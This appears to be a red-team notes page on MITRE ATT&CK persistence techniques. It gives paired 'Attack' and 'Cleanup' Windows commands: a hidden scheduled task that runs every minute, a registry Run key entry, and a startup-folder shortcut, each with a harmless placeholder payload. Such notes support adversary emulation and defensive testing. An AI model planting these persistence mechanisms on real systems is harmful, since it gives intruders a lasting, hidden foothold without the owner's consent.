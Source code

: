 # TA0003 - Persistence

*- maintaining access.*

## T1053.005 - Scheduled Task/Job: Scheduled Task

- Execute `$cmd` every minute.
    - Attack:
        ```ps1
        $cmd = "PowerShell -WindowStyle Hidden -Command taskschd.msc"
        SCHTASKS /Create /F /SC MINUTE /MO 1 /TN poc /TR $cmd
        ```
    - Cleanup:
        ```ps1
        SCHTASKS /Delete /F /TN poc
        ```

## T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

- Execute `$cmd` (via registry run key) when current user logins.
    - Attack:
        ```ps1
        $cmd = "PowerShell -NoExit -Command REG QUERY HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
        REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc /D $cmd
        ```
    - Cleanup:
        ```ps1
        REG DELETE HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc
        ```

- Execute `$cmd` (via startup folder) when current user logins.
    - Attack:
        ```ps1
        $cmd = "Explorer $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
        $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
        ```
    - Cleanup:
        ```ps1
        Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
        ```

## Resources

- [Mitre ATT&CK | Persistence](https://attack.mitre.org/tactics/TA0003/)
- [Red Team Notes | Persistence](https://dmcxblue.gitbook.io/red-team-notes/persistence/)
